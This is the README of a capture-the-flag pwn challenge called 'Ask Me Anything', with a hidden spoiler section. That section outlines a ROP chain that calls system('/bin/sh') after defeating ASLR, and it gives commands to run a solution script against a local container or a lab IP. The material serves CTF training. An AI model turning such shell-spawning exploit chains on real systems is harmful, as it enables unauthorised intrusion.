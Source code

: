 # Ask Me Anything
**Category:** pwn

**Author:** R3D

## Description
This your chance to have a talk with Beth Harmon. We created this AMA(Ask Me Anything) service to provide the opportunity to simpletons like you to peek inside the mind of a genius like Beth Harmon.
Ask anything, don't be rude, don't be a brute and who knows you might actually get her to disclose some of her secrets :)

## Points
200

## Solution
<details>
 <summary>Reveal Spoiler</summary>

### Exploit
If you don't understand the following check the solution script, if you still dont understand maybe you should read more about ASLR and ROP and get back to this later.
<code>rop = base + p64(RET) + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM)</code>

A solution that performs the above steps is provided in [sol.py](./sol/sol.py)

Run against local docker container<br>
<code>
	python2.7 sol.py HOST=localhost
</code>

Run against CyberRanges (IP might change, so adjust the value of the <code>HOST</code> parameter))<br>
<code>
	python2.7 sol.py R HOST=192.168.125.11
</code>

Run against local binary<br>
<code>
	python2.7 sol.py
</code>
</details>
